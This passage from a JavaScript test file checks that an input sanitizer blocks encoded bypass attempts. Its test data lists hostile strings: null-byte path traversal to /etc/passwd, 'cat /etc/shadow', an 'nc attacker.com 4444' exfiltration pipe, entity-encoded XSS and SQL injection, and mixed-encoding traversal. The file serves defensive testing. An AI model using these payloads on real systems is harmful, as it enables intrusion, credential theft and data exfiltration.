 ```javascript
      ];
      
      for (const attack of attacks) {
        const result = sanitizer.sanitize(attack, { type: 'file_path' });
        expect(result.blocked).toBe(true);
      }
    });
  });
  
  describe('Null Byte Bypasses', () => {
    test('should block null byte truncation attacks', async () => {
      const attacks = [
        "safe.txt\\0../../../etc/passwd",
        "document.pdf\\0; cat /etc/shadow",
        "/tmp/allowed\\0`id`",
        "normal.log\\0|nc attacker.com 4444"
      ];
      
      for (const attack of attacks) {
        const result = sanitizer.sanitize(attack, { type: 'file_path' });
        expect(result.blocked).toBe(true);
        expect(result.warnings.some(w => w.includes('null') || w.includes('control'))).toBe(true);
      }
    });
  });
  
  describe('HTML Entity Bypasses', () => {
    test('should block HTML entity encoded attacks', async () => {
      const attacks = [
        "&#46;&#46;&#47;&#46;&#46;&#47;&#101;&#116;&#99;&#47;&#112;&#97;&#115;&#115;&#119;&#100;", // ../../../etc/passwd
        "&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;", // <script>alert('XSS')</script>
        "&#39;&#32;OR&#32;1&#61;1&#32;--" // ' OR 1=1 --
      ];
      
      for (const attack of attacks) {
        const result = sanitizer.sanitize(attack, { type: 'file_path' });
        expect(result.blocked).toBe(true);
      }
    });
  });
  
  describe('Mixed Encoding Bypasses', () => {
    test('should block mixed encoding combinations', async () => {
      const attacks = [
        "\\u002e\\u002e/%2e%2e/\\x2e\\x2e/etc/passwd",  // Unicode + URL + Hex
        "&#46;&#46;/\\u002e\\u002e/%2e%2e/etc/passwd",   // HTML + Unicode + URL
        "%2e%2e/\\u002e\\u002e/&#46;&#46;/etc/passwd"    // URL + Unicode + HTML
      ];
      
      for (const attack of attacks) {
        const result = sanitizer.sanitize(attack, { type: 'file_path' });
        expect(result.blocked).toBe(true);
      }
    });
  });
});

describe('Advanced Injection Pattern Tests', () => {
  const sanitizer = new MCPSanitizer('PRODUCTION');
  
```